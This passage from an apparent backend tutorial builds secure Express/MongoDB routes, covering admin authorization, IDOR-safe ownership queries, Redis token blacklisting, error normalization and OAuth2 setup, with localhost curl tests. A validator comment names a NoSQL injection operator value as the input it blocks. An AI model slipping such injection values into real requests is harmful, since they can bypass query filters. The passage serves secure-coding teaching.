      return next(new AppError('You do not have permission to do this', 403, 'FORBIDDEN'));
    }
    next();
  };
```

### `src/validators/product.validators.js`

```js
import { z } from 'zod';
import { objectId } from './common.js';

const productBody = {
  name: z.string().trim().min(2).max(120),
  description: z.string().trim().max(2000).default(''),
  price: z.number().int().min(1), // paise
  stock: z.number().int().min(0),
  category: z.string().trim().min(2).max(50),
  images: z.array(z.string().url()).max(5).default([]),
};

export const createProductSchema = { body: z.object(productBody).strict() };

export const updateProductSchema = {
  params: z.object({ id: objectId }),
  body: z
    .object(productBody)
    .partial() // every field optional on update
    .strict()
    .refine((b) => Object.keys(b).length > 0, 'Provide at least one field'),
};

export const idParamSchema = { params: z.object({ id: objectId }) };

export const listProductsSchema = {
  query: z.object({
    page: z.coerce.number().int().min(1).default(1),
    limit: z.coerce.number().int().min(1).max(50).default(20),
    q: z.string().trim().min(1).max(100).optional(), // a STRING, so {"$ne":null} can't sneak in (NoSQL injection)
    category: z.string().trim().max(50).optional(),
    minPrice: z.coerce.number().int().min(0).optional(),
    maxPrice: z.coerce.number().int().min(0).optional(),
    sort: z.enum(['newest', 'price_asc', 'price_desc']).default('newest'),
  }),
};
```

### `src/services/product.service.js`

```js
import { Product } from '../models/Product.js';
import { AppError } from '../utils/AppError.js';

const SORTS = {
  newest: { createdAt: -1 },
  price_asc: { price: 1 },
  price_desc: { price: -1 },
};

export async function list({ page, limit, q, category, minPrice, maxPrice, sort }) {
  const filter = { isActive: true };
  if (q) filter.$text = { $search: q };
  if (category) filter.category = category.toLowerCase();
  if (minPrice !== undefined || maxPrice !== undefined) {
    filter.price = {};
    if (minPrice !== undefined) filter.price.$gte = minPrice;
    if (maxPrice !== undefined) filter.price.$lte = maxPrice;
  }

  const [items, total] = await Promise.all([
    Product.find(filter)
      .sort(SORTS[sort])
      .skip((page - 1) * limit) // fine for small catalogs; use cursor pagination at scale
      .limit(limit)
      .lean(), // plain objects: faster, since we don't need Mongoose documents here
    Product.countDocuments(filter),
  ]);
  return { items, page, limit, total, pages: Math.ceil(total / limit) };
}

export async function getById(id) {
  const product = await Product.findOne({ _id: id, isActive: true }).lean();
  if (!product) throw new AppError('Product not found', 404, 'PRODUCT_NOT_FOUND');
  return product;
}

export const create = (data) => Product.create(data);

export async function update(id, data) {
  const product = await Product.findOneAndUpdate(
    { _id: id, isActive: true },
    { $set: data },
    { new: true, runValidators: true } // runValidators: update queries skip schema validation by default!
  );
  if (!product) throw new AppError('Product not found', 404, 'PRODUCT_NOT_FOUND');
  return product;
}

// Soft delete: past orders still point at this product.
export async function remove(id) {
  const product = await Product.findOneAndUpdate({ _id: id, isActive: true }, { isActive: false });
  if (!product) throw new AppError('Product not found', 404, 'PRODUCT_NOT_FOUND');
}
```

### `src/controllers/product.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as productService from '../services/product.service.js';

export const list = asyncHandler(async (req, res) => {
  const data = await productService.list(req.valid.query);
  res.json({ status: 'success', data });
});

export const getOne = asyncHandler(async (req, res) => {
  const product = await productService.getById(req.valid.params.id);
  res.json({ status: 'success', data: { product } });
});

export const create = asyncHandler(async (req, res) => {
  const product = await productService.create(req.valid.body);
  res.status(201).json({ status: 'success', data: { product } });
});

export const update = asyncHandler(async (req, res) => {
  const product = await productService.update(req.valid.params.id, req.valid.body);
  res.json({ status: 'success', data: { product } });
});

export const remove = asyncHandler(async (req, res) => {
  await productService.remove(req.valid.params.id);
  res.status(204).end();
});
```

### `src/routes/product.routes.js`

```js
import { Router } from 'express';
import { authenticate, authorize } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/product.controller.js';
import {
  createProductSchema,
  updateProductSchema,
  idParamSchema,
  listProductsSchema,
} from '../validators/product.validators.js';

const router = Router();

// PUBLIC reads
router.get('/', validate(listProductsSchema), ctrl.list);
router.get('/:id', validate(idParamSchema), ctrl.getOne);

// ADMIN writes: authenticate (who?) -> authorize (allowed?) -> validate -> controller
router.post('/', authenticate, authorize('admin'), validate(createProductSchema), ctrl.create);
router.patch('/:id', authenticate, authorize('admin'), validate(updateProductSchema), ctrl.update);
router.delete('/:id', authenticate, authorize('admin'), validate(idParamSchema), ctrl.remove);

export default router;
```

### Cart: the first "your own data only" feature

The cart is **always** looked up by `req.user._id`. There is no `/cart/:userId` route at all, so there's nothing to tamper with. The best IDOR fix is making the vulnerable shape of the URL impossible.

#### `src/validators/cart.validators.js`

```js
import { z } from 'zod';
import { objectId } from './common.js';

export const setItemSchema = {
  // quantity 0 = remove. NOTE: no userId anywhere in this schema.
  body: z.object({ productId: objectId, quantity: z.number().int().min(0).max(20) }).strict(),
};

export const removeItemSchema = { params: z.object({ productId: objectId }) };
```

#### `src/services/cart.service.js`

```js
import { Cart } from '../models/Cart.js';
import { Product } from '../models/Product.js';
import { AppError } from '../utils/AppError.js';

// Prices are read fresh from the Product collection every time, never stored in the cart.
function summarize(cart) {
  const items = (cart?.items ?? [])
    .filter((i) => i.product && i.product.isActive) // product may have been soft-deleted
    .map((i) => ({
      product: {
        id: i.product._id,
        name: i.product.name,
        price: i.product.price,
        stock: i.product.stock,
        images: i.product.images,
      },
      quantity: i.quantity,
      lineTotal: i.product.price * i.quantity,
    }));
  return { items, total: items.reduce((sum, i) => sum + i.lineTotal, 0) };
}

export async function getCart(userId) {
  const cart = await Cart.findOne({ user: userId })
    .populate('items.product', 'name price stock images isActive')
    .lean();
  return summarize(cart);
}

export async function setItem(userId, productId, quantity) {
  const product = await Product.findOne({ _id: productId, isActive: true });
  if (!product) throw new AppError('Product not found', 404, 'PRODUCT_NOT_FOUND');
  if (quantity > 0 && !product.hasStock(quantity)) {
    throw new AppError('Not enough stock', 409, 'INSUFFICIENT_STOCK');
  }

  // Upsert avoids the "two requests both create a cart" race (unique index on user).
  const cart = await Cart.findOneAndUpdate(
    { user: userId },
    { $setOnInsert: { user: userId, items: [] } },
    { upsert: true, new: true }
  );

  const idx = cart.items.findIndex((i) => String(i.product) === String(productId));
  if (quantity === 0) {
    if (idx > -1) cart.items.splice(idx, 1);
  } else if (idx > -1) {
    cart.items[idx].quantity = quantity;
  } else {
    cart.items.push({ product: productId, quantity });
  }
  await cart.save();
  return getCart(userId);
}

export async function removeItem(userId, productId) {
  await Cart.updateOne({ user: userId }, { $pull: { items: { product: productId } } });
  return getCart(userId);
}

export async function clear(userId) {
  await Cart.updateOne({ user: userId }, { $set: { items: [] } });
}
```

#### `src/controllers/cart.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as cartService from '../services/cart.service.js';

export const getCart = asyncHandler(async (req, res) => {
  res.json({ status: 'success', data: { cart: await cartService.getCart(req.user._id) } });
});

export const setItem = asyncHandler(async (req, res) => {
  const { productId, quantity } = req.valid.body;
  const cart = await cartService.setItem(req.user._id, productId, quantity);
  res.json({ status: 'success', data: { cart } });
});

export const removeItem = asyncHandler(async (req, res) => {
  const cart = await cartService.removeItem(req.user._id, req.valid.params.productId);
  res.json({ status: 'success', data: { cart } });
});

export const clear = asyncHandler(async (req, res) => {
  await cartService.clear(req.user._id);
  res.status(204).end();
});
```

#### `src/routes/cart.routes.js`

```js
import { Router } from 'express';
import { authenticate } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/cart.controller.js';
import { setItemSchema, removeItemSchema } from '../validators/cart.validators.js';

const router = Router();
router.use(authenticate);

router.get('/', ctrl.getCart);
router.put('/items', validate(setItemSchema), ctrl.setItem);
router.delete('/items/:productId', validate(removeItemSchema), ctrl.removeItem);
router.delete('/', ctrl.clear);

export default router;
```

### A real ownership check: "my sessions"

Each refresh-token family is one logged-in device. Users can list their devices and sign one out. Here's the **IDOR-safe pattern**: the ownership condition lives *inside the query*.

Add to `src/services/user.service.js`:

```js
import { RefreshToken } from '../models/RefreshToken.js';
import { AppError } from '../utils/AppError.js';

export async function listSessions(userId) {
  const tokens = await RefreshToken.find({ user: userId, usedAt: null }) // live (unrotated) token per family
    .select('userAgent ip createdAt')
    .sort({ createdAt: -1 })
    .lean();
  return tokens.map((t) => ({ id: t._id, userAgent: t.userAgent, ip: t.ip, createdAt: t.createdAt }));
}

export async function revokeSession(userId, sessionId) {
  // { _id, user } in the SAME filter: if the session belongs to someone else it simply "doesn't exist".
  // We return 404, not 403, so we don't even confirm the id is valid. (A 403 leaks existence.)
  const token = await RefreshToken.findOne({ _id: sessionId, user: userId });
  if (!token) throw new AppError('Session not found', 404, 'SESSION_NOT_FOUND');
  await RefreshToken.deleteMany({ family: token.family });
}
```

Add to `src/controllers/user.controller.js`:

```js
export const listSessions = asyncHandler(async (req, res) => {
  res.json({ status: 'success', data: { sessions: await userService.listSessions(req.user._id) } });
});

export const revokeSession = asyncHandler(async (req, res) => {
  await userService.revokeSession(req.user._id, req.valid.params.id);
  res.status(204).end();
});
```

Add to `src/routes/user.routes.js` (plus `import { idParamSchema } from '../validators/product.validators.js';`):

```js
router.get('/me/sessions', ctrl.listSessions);
router.delete('/me/sessions/:id', validate(idParamSchema), ctrl.revokeSession);
```

### Modify `src/routes/index.js`

```js
import productRoutes from './product.routes.js';
import cartRoutes from './cart.routes.js';
// ...
router.use('/products', productRoutes);
router.use('/cart', cartRoutes);
```

## Pro tip / War story

> **The invoice IDOR.** A SaaS I worked on had `GET /invoices/:id` with a perfectly good `authenticate`. Sequential ids. A customer wrote a 10-line script looping `id=1..50000` and downloaded every company's invoices. Authentication passed every time, because they *were* logged in. We fixed it by moving ownership into the query (`findOne({_id, org: req.user.org})`) and switching to unpredictable ids. Unguessable ids are defense in depth, **not** the fix. The ownership check is.
>
> Another one, from a code review: `POST /orders` accepted `{ "userId": "...", "total": 10 }`. The frontend sent the right values, so nobody noticed the backend trusted them. Anything the client sends is a suggestion.

## Common mistakes

- Checking the role on the frontend only (the UI hides the button, but the API is open).
- `authorize` placed *before* `authenticate`.
- Ownership check done *after* fetching and returning the data.
- Accepting `userId`, `role`, `price`, `total` from the body.
- Returning 403 for other people's resources (confirms they exist); prefer 404.
- Hard-coding admin emails in code. Roles live in the DB.

## Test it

Promote yourself to admin (there's deliberately no API for this):

```bash
docker compose exec mongo mongosh ecommerce --quiet --eval \
  'db.users.updateOne({email:"asha@example.com"},{$set:{role:"admin"}})'
```

Log in again (so the token carries the new role), then:

```bash
curl -s -c admin.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' > /dev/null

# Admin creates a product (price in PAISE: 49900 = ₹499)
curl -s -b admin.txt -X POST localhost:5000/api/v1/products -H 'Content-Type: application/json' \
  -d '{"name":"Mechanical Keyboard","description":"Clicky","price":49900,"stock":25,"category":"Electronics"}'
# {"status":"success","data":{"product":{"_id":"<PID>",...}}}

# Anyone can read
curl -s 'localhost:5000/api/v1/products?q=keyboard&sort=price_asc'

# Register a normal user "bob", then try an admin route -> 403
curl -s -c bob.txt -X POST localhost:5000/api/v1/auth/register -H 'Content-Type: application/json' \
  -d '{"name":"Bob","email":"bob@example.com","password":"Passw0rdOK"}' > /dev/null
curl -s -b bob.txt -X POST localhost:5000/api/v1/products -H 'Content-Type: application/json' \
  -d '{"name":"Hack","price":1,"stock":1,"category":"x"}'
# {"status":"fail","code":"FORBIDDEN","message":"You do not have permission to do this"}

# No cookie at all -> 401 (not 403)

# Cart (as bob)
curl -s -b bob.txt -X PUT localhost:5000/api/v1/cart/items -H 'Content-Type: application/json' \
  -d '{"productId":"<PID>","quantity":2}'
# {"status":"success","data":{"cart":{"items":[{...,"quantity":2,"lineTotal":99800}],"total":99800}}}

# IDOR test: Bob tries to revoke one of ASHA's sessions
curl -s -b admin.txt localhost:5000/api/v1/users/me/sessions      # copy an id
curl -s -X DELETE -b bob.txt localhost:5000/api/v1/users/me/sessions/<ASHAS_SESSION_ID> -i
# HTTP/1.1 404 ... SESSION_NOT_FOUND
```

## Interview corner

**1. What's IDOR and how do you prevent it?**
Insecure Direct Object Reference: the API trusts a client-supplied identifier without checking the caller is allowed to access *that* object. Prevent it by putting the ownership/permission check in the data query itself (`{ _id, owner: req.user.id }`), by deriving identity from the token, and by designing routes (like `/cart`) that don't take a user id.

**2. How does the `authorize('admin')` factory work?**
It's a function that returns a middleware closed over the allowed roles. Compare `req.user.role` and respond 403 or `next()`. It requires `authenticate` to have run first.

**3. Why 404 instead of 403 for someone else's resource?**
403 confirms the resource exists, which helps enumeration. 404 reveals nothing.

**4. RBAC vs ABAC?**
RBAC grants by role (admin, user). ABAC decides by attributes and context (owner, department, time, amount). Real systems combine them: role for coarse access, ownership for fine-grained access.

**5. Why `strict()` schemas?**
They block mass assignment. Without them, extra properties such as `role` or `price` could flow into `Model.create(req.body)`.

---

# Chapter 10: Logout and token blacklisting with Redis

## Why this exists

"Logout" on a stateless JWT is a lie unless you do something: deleting the cookie only removes *your browser's* copy. If someone already copied the token, it works until it expires.

Two tools, and they solve different problems:

| Tool | Revokes | Mechanism | Cost |
|---|---|---|---|
| **Blacklist (`jti`)** | ONE specific access token (this device's logout) | Redis key `bl:<jti>` with TTL | one Redis `EXISTS` per request |
| **`tokenVersion`** | ALL access tokens of a user (logout-all, password reset, "I got hacked") | integer on the user; token carries `tv`; mismatch = dead | free (we already load the user) |

Plus: on any logout we delete the **refresh token family** in Mongo so the session can't be renewed.

## Mental model

**Blacklist = the club's "banned wristband numbers" clipboard.** Each entry is crossed off automatically when that wristband would have expired anyway, so the clipboard never grows forever. That's the **TTL = remaining lifetime** trick: after the token's natural expiry, it's dead anyway, so Redis forgets it.

**`tokenVersion` = changing the colour of wristbands.** "Everyone with a blue wristband, out." New wristbands are red.

## Code

### `src/config/redis.js`

```js
import Redis from 'ioredis';
import { config } from './env.js';
import { logger } from '../utils/logger.js';

export const redis = new Redis(config.redisUrl, {
  lazyConnect: true, // we connect explicitly at startup (connect before listen, same as Mongo)
  maxRetriesPerRequest: 3, // don't let a command hang forever if Redis is down
});

redis.on('error', (err) => logger.error('Redis error:', err.message));
redis.on('ready', () => logger.info('Redis ready'));

export async function connectRedis() {
  if (redis.status === 'wait') await redis.connect(); // 'wait' = lazyConnect, not yet connected
  await redis.ping();
}

export async function disconnectRedis() {
  await redis.quit(); // flushes pending commands, then closes
}
```

### Append to `src/services/token.service.js`

```js
import { redis } from '../config/redis.js'; // add at the top with the other imports

// Blacklist ONE access token until the moment it would have expired anyway.
export async function blacklistAccessToken(payload) {
  const ttl = payload.exp - Math.floor(Date.now() / 1000); // seconds left
  if (ttl > 0) await redis.set(`bl:${payload.jti}`, '1', 'EX', ttl);
}

export async function isBlacklisted(jti) {
  return (await redis.exists(`bl:${jti}`)) === 1;
}

// Logout needs the family of the refresh token this device holds.
export async function revokeByRefreshToken(rawToken) {
  const doc = await RefreshToken.findOne({ tokenHash: sha256(rawToken) });
  if (doc) await revokeFamily(doc.family);
}
```

### Modify `authenticateAccessToken` in `src/services/auth.service.js`

Insert the blacklist check **between verification and the DB lookup** (cheap Redis check before the more expensive Mongo one):

```js
  if (await tokenService.isBlacklisted(payload.jti)) {
    throw new AppError('Token has been revoked', 401, 'TOKEN_REVOKED');
  }
```

### Append to `src/services/auth.service.js`

Add `import { User }` (already there). Then:

```js
// Idempotent on purpose: logging out twice, or with garbage, is not an error.
export async function logout({ accessPayload, refreshToken }) {
  if (accessPayload) await tokenService.blacklistAccessToken(accessPayload);
  if (refreshToken) await tokenService.revokeByRefreshToken(refreshToken);
}

export async function logoutAll(userId) {
  // $inc is atomic; every access token with the old `tv` now fails authenticateAccessToken.
  await User.updateOne({ _id: userId }, { $inc: { tokenVersion: 1 } });
  await tokenService.revokeAllForUser(userId);
}
```

### Append to `src/controllers/auth.controller.js`

Add `clearAuthCookies` to the cookies import, then:

```js
export const logout = asyncHandler(async (req, res) => {
  await authService.logout({
    accessPayload: req.auth, // set by optionalAuth (undefined if the access token already expired)
    refreshToken: req.cookies?.[REFRESH_COOKIE],
  });
  clearAuthCookies(res); // same path/flags as when we set them. Otherwise the cookie survives!
  res.status(204).end();
});

export const logoutAll = asyncHandler(async (req, res) => {
  await authService.logoutAll(req.user._id);
  clearAuthCookies(res);
  res.status(204).end();
});
```

### Modify `src/routes/auth.routes.js`

```js
import { authenticate, optionalAuth } from '../middleware/auth.js';
// ...
// optionalAuth: logout must work even if the access token already expired. The refresh cookie
// is the thing that matters, and it only travels to /api/v1/auth/*, which includes this route.
router.post('/logout', optionalAuth, ctrl.logout);
router.post('/logout-all', authenticate, ctrl.logoutAll);
```

### Modify `src/server.js`

```js
import { connectRedis, disconnectRedis } from './config/redis.js';
// in start():
  await connectDB();
  await connectRedis();
// in shutdown's server.close callback:
    await disconnectDB();
    await disconnectRedis();
```

(Chapter 11 and 14 reprint `server.js` in full.)

## Pro tip / War story

> **The cookie that wouldn't die.** Users clicked Logout, the UI redirected to login, and yet a refresh showed them logged in again. Cause: we *set* the refresh cookie with `path=/api/v1/auth` but *cleared* it with the default path `/`. Browsers treat cookies with different paths as different cookies, so `clearCookie` quietly deleted nothing. Rule: `clearCookie` must repeat **name + path + domain** (and use the same `secure`/`sameSite`). Our `clearAuthCookies` shares one `base` object with `setAuthCookies` for exactly this reason.
>
> **Redis down?** Our blacklist check throws, so requests fail with 500 (fail *closed*). Some teams fail *open* ("if Redis is down, allow") to preserve availability. For a shop with money flowing, we choose safety. Make that a deliberate, documented decision, not an accident.

## Common mistakes

- Blacklisting with no TTL, so Redis fills forever.
- TTL longer or shorter than the token's remaining life (shorter = token revives).
- Only deleting the cookie client-side.
- Not clearing the refresh token server-side (the user can silently log back in).
- Making logout *require* a valid access token, so users with expired tokens can't log out.
- Forgetting to bump `tokenVersion` on password change, role change and ban.

## Test it

```bash
curl -s -c cookies.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' > /dev/null

AT=$(grep accessToken cookies.txt | awk '{print $7}')       # save the access token ("the copied token")

curl -s -b cookies.txt -c cookies.txt -X POST localhost:5000/api/v1/auth/logout -i | head -1
# HTTP/1.1 204 No Content

# The "stolen" token no longer works, even though it hasn't expired:
curl -s localhost:5000/api/v1/users/me -H "Authorization: Bearer $AT"
# {"status":"fail","code":"TOKEN_REVOKED","message":"Token has been revoked"}

# Inspect Redis: the key and its remaining TTL (~900s max)
docker compose exec redis redis-cli --scan --pattern 'bl:*'
docker compose exec redis redis-cli ttl "bl:<jti-from-above>"

# Refresh is dead too:
curl -s -b cookies.txt -X POST localhost:5000/api/v1/auth/refresh
# {"status":"fail","code":"NO_REFRESH_TOKEN",...}   (cookie cleared)
```

Logout-all across devices:

```bash
curl -s -c dev1.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' >/dev/null
curl -s -c dev2.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' >/dev/null

curl -s -b dev1.txt -X POST localhost:5000/api/v1/auth/logout-all -i | head -1     # 204
curl -s -b dev2.txt localhost:5000/api/v1/users/me
# {"status":"fail","code":"TOKEN_REVOKED","message":"Session is no longer valid"}   <- device 2 is dead instantly
```

## Interview corner

**1. How do you log out a user with JWTs?**
Clear cookies client-side, revoke the refresh token server-side, and blacklist the access token's `jti` in Redis until its expiry. Without server-side action, a copied token stays valid.

**2. Why set the Redis TTL to the token's remaining lifetime?**
After expiry the token is invalid anyway, so the entry is useless. The TTL keeps the blacklist small and self-cleaning.

**3. Blacklist vs `tokenVersion`: when do you use which?**
Blacklist = revoke one token (single-device logout). `tokenVersion` = revoke every token of a user at once (logout-all, password reset, compromise). The version check is free because we already load the user.

**4. Doesn't a blacklist make JWTs stateful?**
Yes, partially. That's the honest trade-off. But the state is tiny (only revoked, unexpired tokens), fast (Redis), and self-expiring, which is why dual-token + short access lifetimes is the practical middle ground.

**5. Why must `clearCookie` repeat the original options?**
Cookie identity is `(name, domain, path)`. A clear with a different path targets a different cookie, so the original survives.

---

# Chapter 11: Global error handler

## Why this exists

Without a central handler, errors come out in 12 different shapes: sometimes HTML stack traces, sometimes `{error: "..."}`, sometimes a hung request. The frontend can't cope and the stack traces leak your file paths and library versions.

One handler gives one **consistent response shape**:

```json
{ "status": "fail", "code": "VALIDATION_ERROR", "message": "Validation failed", "details": [ ... ] }
```

## Mental model

The handler is the **hospital triage desk**. Whatever shows up (a Mongoose validation error, a duplicate key, a bad cast, an expired JWT, a plain bug), it classifies the problem, picks the right status code, and gives the patient a clear card, without announcing the hospital's internal floor plan (the stack trace).

**Operational vs programmer errors:**

| Type | Examples | What we do |
|---|---|---|
| **Operational** (expected) | bad input, not found, expired token, duplicate email | Return a specific message, 4xx |
| **Programmer** (bugs) | `undefined is not a function`, bad query | Log the stack, return a generic 500, **never** show internals |

## Code

### `src/middleware/errorHandler.js`

```js
import { AppError } from '../utils/AppError.js';
import { config } from '../config/env.js';
import { logger } from '../utils/logger.js';

export function notFound(req, res, next) {
  next(new AppError(`Route ${req.method} ${req.originalUrl} not found`, 404, 'NOT_FOUND'));
}

// Translate "foreign" errors into AppErrors. Order: most specific first.
function normalize(err) {
  if (err instanceof AppError) return err;

  // Mongoose schema validation (required, enum, min, custom validators)
  if (err.name === 'ValidationError' && err.errors) {
    const details = Object.values(err.errors).map((e) => ({ path: e.path, message: e.message }));
    return new AppError('Validation failed', 400, 'VALIDATION_ERROR', details);
  }

  // Unique index violation (E11000). e.g. two sign-ups with the same email
  if (err.code === 11000) {
    const field = Object.keys(err.keyValue ?? {})[0] ?? 'field';
    return new AppError(`${field} already exists`, 409, 'DUPLICATE_KEY');
  }

  // Malformed ObjectId etc. (we echo the field name, NOT the value, since it's user input)
  if (err.name === 'CastError') {
    return new AppError(`Invalid ${err.path}`, 400, 'INVALID_ID');
  }

  // JWT errors that escaped (defense in depth; the auth service normally maps them)
  if (err.name === 'TokenExpiredError') return new AppError('Token expired', 401, 'TOKEN_EXPIRED');
  if (err.name === 'JsonWebTokenError' || err.name === 'NotBeforeError') {
    return new AppError('Invalid token', 401, 'INVALID_TOKEN');
  }

  // body-parser: malformed JSON / body too big
  if (err.type === 'entity.parse.failed') return new AppError('Malformed JSON body', 400, 'INVALID_JSON');
  if (err.type === 'entity.too.large') return new AppError('Request body too large', 413, 'PAYLOAD_TOO_LARGE');

  // Razorpay SDK errors look like { statusCode, error: { description } }
  if (err.statusCode && err.error?.description) {
    return new AppError('Payment provider error', 502, 'PAYMENT_PROVIDER_ERROR');
  }

  // Anything else is a BUG. Generic message, flagged non-operational.
  const unknown = new AppError('Something went wrong', 500, 'INTERNAL_ERROR');
  unknown.isOperational = false;
  return unknown;
}

// eslint-disable-next-line no-unused-vars
export function errorHandler(err, req, res, next) {
  // If headers are already sent we can't write a JSON body. Delegate to Express's default.
  if (res.headersSent) return next(err);

  const e = normalize(err);

  if (e.statusCode >= 500) {
    // Log the ORIGINAL error (with stack) for us. The client never sees it.
    logger.error(`${req.method} ${req.originalUrl} ->`, err.stack ?? err);
  }

  res.status(e.statusCode).json({
    status: e.statusCode < 500 ? 'fail' : 'error',
    code: e.code,
    message: e.message,
    ...(e.details && { details: e.details }),
    // Stack traces ONLY outside production.
    ...(!config.isProd && { stack: err.stack }),
  });
}
```

### Modify `src/app.js`

Replace the inline 404 and error handler from Chapters 1 and 5:

```js
import { notFound, errorHandler } from './middleware/errorHandler.js';
// ...
  app.use('/api/v1', routes);
  app.use(notFound);
  app.use(errorHandler);   // LAST
```

### Replace `src/server.js` (state after this chapter)

```js
import http from 'node:http';
import { config } from './config/env.js';
import { connectDB, disconnectDB } from './config/db.js';
import { connectRedis, disconnectRedis } from './config/redis.js';
import { createApp } from './app.js';
import { logger } from './utils/logger.js';

const app = createApp();
const server = http.createServer(app);

async function start() {
  await connectDB();
  await connectRedis();
  server.listen(config.port, () => logger.info(`API listening on :${config.port}`));
}

start().catch((err) => {
  logger.error('Failed to start:', err.message);
  process.exit(1);
});

let shuttingDown = false;
async function shutdown(signal, exitCode = 0) {
  if (shuttingDown) return;
  shuttingDown = true;
  logger.info(`${signal} received, shutting down...`);
  setTimeout(() => process.exit(1), 10_000).unref();
  server.close(async () => {
    await disconnectDB();
    await disconnectRedis();
    process.exit(exitCode);
  });
}

process.on('SIGTERM', () => shutdown('SIGTERM'));
process.on('SIGINT', () => shutdown('SIGINT'));

// A promise rejected with no .catch() anywhere. The process state is now UNKNOWN
// (half-written data, leaked handles). Log it, then exit cleanly and let the
// orchestrator (PM2 / Docker / Kubernetes) start a fresh process.
process.on('unhandledRejection', (reason) => {
  logger.error('Unhandled rejection:', reason);
  shutdown('unhandledRejection', 1);
});
process.on('uncaughtException', (err) => {
  logger.error('Uncaught exception:', err);
  shutdown('uncaughtException', 1);
});
```

## Pro tip / War story

> **Stack trace in the wild.** An early version returned `err.message` for everything. A malformed query once produced `MongoServerError: ... at /home/deploy/app/node_modules/...`, which told a curious user our directory layout, our DB driver and our hosting user. Another time the unique-index error message included the **actual duplicate email** of *another* customer. Never forward raw driver messages.
>
> And the quiet killer: handlers that `catch(err) { console.log(err) }` and then **don't respond**. The request hangs until the load balancer times out at 60s. Every catch must either respond or `next(err)`.

## Common mistakes

- Error middleware with 3 args, or registered before routes.
- Sending a response *and* calling `next(err)` (→ "headers already sent").
- Returning 200 with `{ error: ... }`.
- Different shapes from different places (`{error}`, `{message}`, `{msg}`).
- Catching and swallowing `unhandledRejection` and carrying on. (Log and restart instead.)
- Echoing user-controlled values in error messages.

## Test it

```bash
curl -s localhost:5000/api/v1/nope
# {"status":"fail","code":"NOT_FOUND","message":"Route GET /api/v1/nope not found","stack":"..."}   (stack only in dev)

curl -s -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' -d '{"email":'
# {"status":"fail","code":"INVALID_JSON","message":"Malformed JSON body",...}

# 11 KB body (limit is 10kb)
head -c 11000 /dev/zero | tr '\0' 'a' | sed 's/^/{"x":"/;s/$/"}/' | \
  curl -s -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' --data-binary @-
# {"status":"fail","code":"PAYLOAD_TOO_LARGE",...}

curl -s localhost:5000/api/v1/users/me -H 'Authorization: Bearer garbage'
# {"status":"fail","code":"INVALID_TOKEN","message":"Invalid token"}
```

Production mode hides stacks:

```bash
NODE_ENV=production npm start   # then repeat the 404 request: no "stack" field
```

(With `NODE_ENV=production`, cookies become `Secure`, so cookie-based curl tests need HTTPS. Use the unauthenticated checks above.)

## Interview corner

**1. How does Express error handling work?**
`next(err)` skips to the first middleware with four parameters. In Express 4, async errors must be forwarded manually (`asyncHandler`). Express 5 forwards rejected promises automatically.

**2. Operational vs programmer errors?**
Operational errors are expected runtime conditions (bad input, 404). Programmer errors are bugs. Show clear messages for the first, generic 500 plus a logged stack for the second.

**3. What should happen on `unhandledRejection`?**
Log it, shut down gracefully and let a process manager restart you. State may be corrupt, so don't continue as if nothing happened.

**4. How do you map a Mongo duplicate-key error?**
Detect `err.code === 11000`, read the field from `keyValue`, and return 409 without echoing the value.

**5. Why a consistent error shape and `code` field?**
Clients switch on stable machine codes (`TOKEN_EXPIRED` → refresh) instead of parsing human text that can change.


---

# Chapter 12: Passport.js and OAuth2

## Why this exists

"Sign in with Google/GitHub/Discord" removes password fatigue for users and password liability for you. **OAuth2** is the protocol; **Passport.js** is a library with one *strategy* per provider, so you don't hand-roll the HTTP calls.

Terms, defined before we use them:

- **Provider**: Google, GitHub, Discord.
- **Client**: *our backend*, registered with the provider (gets a client id and secret).
- **Authorization Code flow**: the browser is redirected to the provider, the user consents, the provider redirects back with a short-lived **code**, and our server swaps the code (plus the client secret) for tokens, then fetches the user's profile.
- **`state`**: a random value we generate before the redirect and check on return. It proves the callback belongs to a login *we* started. It prevents **login CSRF** (an attacker feeding you *their* auth code so you end up logged into *their* account).
- **PKCE** (Proof Key for Code Exchange): the client invents a secret (`code_verifier`), sends only its hash (`code_challenge`) at the start, and reveals the verifier when swapping the code. A stolen code is useless without the verifier. It's *mandatory for public clients* (SPAs, mobile apps) that can't keep a secret. We're a **confidential client** (our secret lives on the server), so `state` + the client secret are our protections. PKCE is still recommended as defense in depth if your strategy supports it (OAuth 2.1 makes it universal).

## Mental model

Valet parking. You (the user) don't give the valet your house keys (your Google password). You show the *hotel* (provider) your ID, and the hotel hands the valet (our server) a **claim ticket** (the code) good for one trip. The valet trades the ticket at the desk for a temporary pass (access token) and only learns what the hotel allows (email, name).



**Never put our tokens in the redirect URL.** URLs end up in browser history, `Referer` headers, proxy logs and analytics. We set httpOnly cookies on the redirect response and send the user to a clean URL.

## Provider setup (one-time)

Register an OAuth app with each provider and use these **callback URLs**:

| Provider | Console | Callback URL (local) |
|---|---|---|
| Google | console.cloud.google.com → APIs & Services → Credentials → OAuth client (Web) | `http://localhost:5000/api/v1/auth/google/callback` |
| GitHub | github.com/settings/developers → New OAuth App | `http://localhost:5000/api/v1/auth/github/callback` |
| Discord | discord.com/developers/applications → OAuth2 → Redirects | `http://localhost:5000/api/v1/auth/discord/callback` |

Put the ids/secrets into `.env` (`GOOGLE_CLIENT_ID`, ...). The callback host must match `SERVER_URL` exactly. A mismatch gives `redirect_uri_mismatch`. A provider with no credentials is simply disabled.

## Account linking rules (this is where security bugs live)

When a provider login arrives, in order:

1. **Match by `(provider, providerId)`** → that's the user. (Stable even if their email changes.)
2. Else **match by email, but ONLY if the provider says that email is verified** → link this provider to the existing account.
3. Else **create** a new user.

